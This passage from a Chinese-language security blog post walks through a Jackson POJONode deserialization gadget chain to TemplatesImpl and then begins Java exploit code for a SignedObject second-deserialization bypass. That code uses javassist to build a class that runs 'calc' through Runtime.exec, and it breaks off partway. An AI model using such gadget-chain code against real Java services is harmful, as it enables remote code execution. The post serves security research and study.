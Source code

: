 ‍

可以成功执行命令

[![](assets/1701606625-e5495a4729f9e253f8f353bbb61513be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153531-63936dea-82c0-1.png)

#### 调试

通过`BadAttributeValueExpException`​的`toString`​方法进入

[![](assets/1701606625-14c9cb7c8b15506ced7672727dd79789.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153556-72bd52f4-82c0-1.png)

进入到`BaseJsonNode`​​​的`toString`​​​ 调用​`InternalNodeMapper.nodeToString`​​​

[![](assets/1701606625-c48268468fbe42c9f45a058667bc326e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153620-80be0a06-82c0-1.png)

调用`ObjectWriter.writeValueAsString(Object value)`​​​

[![](assets/1701606625-07bf75803afaa45d90e88530d8cd19bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153640-8cf90e38-82c0-1.png)

最终在`serializeAsField`​中触发 invoke 调用到`TemplatesImpl.getOutputProperties`​

[![](assets/1701606625-5f4e329c4373525dea04e10afb5bdada.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153657-974e3354-82c0-1.png)

调用链如下

[![](assets/1701606625-5bbdab475515d7dedf69635f67ee3f42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153725-a80eac46-82c0-1.png)

[![](assets/1701606625-a47cdff5602a1568fed5f643014a5bd0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153743-b287a4f2-82c0-1.png)

### SignObject 链

在 Templates 被 ban 的情况下 打二次反序列化

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class SignObjectChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templatesImpl = new TemplatesImpl();
```